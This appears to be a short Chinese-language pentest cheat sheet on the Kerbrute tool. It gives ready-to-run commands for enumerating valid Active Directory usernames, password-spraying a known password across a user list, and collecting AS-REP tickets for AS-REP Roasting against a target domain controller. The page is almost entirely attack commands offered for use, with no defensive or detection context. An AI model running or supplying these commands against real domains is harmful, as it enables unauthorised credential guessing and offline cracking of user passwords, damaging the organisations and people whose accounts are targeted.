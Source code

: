 ```yaml
---
description: 域用户名枚举 / 密码喷洒 / 获取AS-REP票据 (AS-REP Roasting) -> 识别潜在用户名和密码
---
```


# ✔️ Kerbrute

## 枚举域内有效用户名

* `usernames.txt`：可以是字典文件，也可以是自己针对目标域收集到的可能的用户名列表

```bash
kerbrute userenum -d 目标域名 usernames.txt -dc-ip 域控IP
```

## 密码喷洒

* `passwordspray`：指定操作为密码喷射

```bash
kerbrute passwordspray -d 目标域名 -p 已知的密码 usernames.txt -dc-ip 域控IP
```

## 获取AS-REP票据

* 获取 Kerberos 预身份验证数据（AS-REP 票据）
* 适用于AS-REP Roasting攻击
* `asreproast`：指定操作为 AS-REP Roasting

```bash
kerbrute asreproast -d 目标域名 usernames.txt -dc-ip 域控IP
```
